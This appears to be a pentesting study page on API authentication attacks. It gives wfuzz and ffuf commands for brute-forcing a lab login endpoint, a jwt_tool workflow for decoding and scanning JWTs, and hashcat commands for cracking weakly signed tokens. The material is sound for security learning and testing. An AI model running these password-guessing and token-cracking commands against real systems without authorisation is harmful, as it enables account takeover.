 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Authentication Attacks

## Classic Attacks

Brute-forcing/Password-spraying with Intruder (if Burp Pro is available) or [`ffuf`](../../../tools/tools/web/dirbusting/fuff.md)/`wfuzz`.

<figure><img src="../../../.gitbook/assets/api_auth_attacks_classic.png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```bash
# Fuzzing with wfuzz
wfuzz -u http://127.0.0.1:8888/identity/api/auth/login -X POST -d '{"email":"testuser@email.com","password":"FUZZ"}' -H 'Content-Type: application/json' -w pass

# Fuzzing with ffuf
ffuf -u http://127.0.0.1:8888/identity/api/auth/login -X POST -d '{"email":"testuser@email.com","password":"FUZZ"}' -H 'Content-Type: application/json' -w pass -c
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/api_auth_attacks_ffuf.png" alt=""><figcaption></figcaption></figure>

## API Token Attacks

### Entropy Analysis

<figure><img src="../../../.gitbook/assets/api_token_entropy_analysis.png" alt=""><figcaption></figcaption></figure>

If it is a kind-of-predictable token we try brute-forcing it with Intruder.

### JWTs

Characteristics:

* Base64 encoded
* Starts with `ey`
* Has 3 sections: header, payload, signature
* Can be decoded using [https://jwt.io/](https://jwt.io/\)) or using [`jwt_tool.py`](https://github.com/ticarpi/jwt\_tool)

<figure><img src="../../../.gitbook/assets/jwt_io.png" alt=""><figcaption></figcaption></figure>

Common Workflow:

1. Recon -> decode the token to see what's in it.
2. Scan -> run a Playbook Scan against the app to check for common misconfigurations
3. Exploit -> If any vulnerability is found try to exploit it
4. Fuzz -> Check for unexpected values and claims to identify unexpected app behaviours
5. Review -> Check the logs of any successful exploitation

{% code overflow="wrap" %}
```bash
# 1. Recon
$ jwt_tool.py eyJ...<SNIP>...jmg

Original JWT:

=====================
Decoded Token Values:
=====================

Token header values:
[+] alg = "RS256"

Token payload values:
[+] sub = "testuser@email.com"
[+] role = "user"
[+] iat = 1717597214    ==> TIMESTAMP = 2024-06-05 15:20:14 (UTC)
[+] exp = 1718202014    ==> TIMESTAMP = 2024-06-12 15:20:14 (UTC)

Seen timestamps:
[*] iat was seen
[*] exp is later than iat by: 7 days, 0 hours, 0 mins

----------------------
JWT common timestamps:
iat = IssuedAt
exp = Expires
nbf = NotBefore
----------------------

# 2. Playbook Scan
$ jwt_tool.py -rh "Authorization: Bearer eyJ...<SNIP>...2Tw"  -t http://127.0.0.1:8888/identity/api/v2/user/dashboard -M pb

<SNIP>
Scanning mode completed: review the above results.

The following additional checks should be performed that are better tested manually:
[+] Try testing HS token against weak password configurations by running the following hashcat cracking options:
(Already testing against passwords in jwt-common.txt)
Try using longer dictionaries, custom dictionaries, mangling rules, or brute force attacks.
hashcat (https://hashcat.net/hashcat/) is ideal for this as it is highly optimised for speed. Just add your JWT to a text file, then use the following syntax to give you a good start:

[*] dictionary attacks: hashcat -a 0 -m 16500 jwt.txt passlist.txt
[*] rule-based attack:  hashcat -a 0 -m 16500 jwt.txt passlist.txt -r rules/best64.rule
[*] brute-force attack: hashcat -a 3 -m 16500 jwt.txt ?u?l?l?l?l?l?l?l -i --increment-min=6
[+] Try waiting for the token to expire ("exp" value set to: 2024-06-12 19:11:05 (UTC))
Check if still working once expired.
```
{% endcode %}
